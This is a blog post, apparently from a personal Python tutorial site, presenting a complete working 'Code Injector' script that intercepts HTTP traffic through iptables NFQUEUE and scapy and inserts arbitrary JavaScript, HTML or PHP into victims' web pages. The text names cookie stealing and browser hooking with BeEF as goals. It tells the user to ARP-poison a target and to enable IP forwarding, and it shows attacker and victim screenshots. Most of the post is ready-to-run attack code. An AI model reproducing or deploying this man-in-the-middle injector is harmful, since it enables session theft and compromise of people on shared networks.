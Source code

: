 ```yaml
---
title: A Code Injector program
date: 2021-07-29 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to injects arbitary code  into the response of a HTTP request.
---
```



<p align="left">
 <img src="https://pbs.twimg.com/media/EXiXVKVXsAA5uO7?format=jpg&name=small">
</p>



## This is a python script that injects arbitary code (JS,HTML,PHP...) into the response of a HTTP request.

* The program works only on HTTP sites.
* We use IPTABLES to build a queue to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -
    > `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic.
   
    > `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic.
    
    > `iptables --flush` --> flush rules after completion.
* We filter the traffic like an intercepting proxy would to filter and modify HTTP responses for the target site to inject our malicious script just before the __\<body\>__ tag of the HTML response source. Many avenues of attacks can be performed like browser hooking, cookie stealing etc by using external frameworks like BEEF.
* While altering the response one thing to note is that the injected code gets cut off due to the "Content-Length" limitations. Hence we alter the Content-Length too by adding the length of the injected code to the original Content-Length.


### Code:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            if scapy_packet[scapy.TCP].dport == 80:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
            elif scapy_packet[scapy.TCP].sport == 80:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
                    content_length = content_length_search.group(1)
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            # Exec if load is modified
            if load != scapy_packet[scapy.Raw].load:
                print("[!] Response Injected!")
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        # Irrelevant HTML data
        except UnicodeDecodeError:
            pass
    packet.accept()

print("""
                              (                                       
   (          (           )\ )                        )           
   )\         )\ )   (   (()/(       (     (       ( /(      (    
 (((_)   (   (()/(  ))\   /(_)) (    )\   ))\  (   )\()) (   )(   
 )\___   )\   ((_))/((_) (_))   )\ )((_) /((_) )\ (_))/  )\ (()\  
((/ __| ((_)  _| |(_))   |_ _| _(_/(  ! (_))  ((_)| |_  ((_) ((_) 
 | (__ / _ \/ _` |/ -_)   | | | ' \))| |/ -_)/ _| |  _|/ _ \| '_| 
  \___|\___/\__,_|\___|  |___||_||_|_/ |\___|\__|  \__|\___/|_|   
                                   |__/                           
""")

print("[-] Specify a file to inject code from to poison any HTTP websites source.\n\n")
print("[NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
print("""
[!] Run the following commands as root before using this program to setup IPTABLE rules.

1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
2. iptables -I INPUT -j NFQUEUE --queue-num 0
3. echo 1 > /proc/sys/net/ipv4/ip_forward

""")

try:
    code = get_arguments()
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Exiting Program!")
```

### Output:

_Attacker:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject3.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject4.png)


_Victim:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject2.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject5.png)

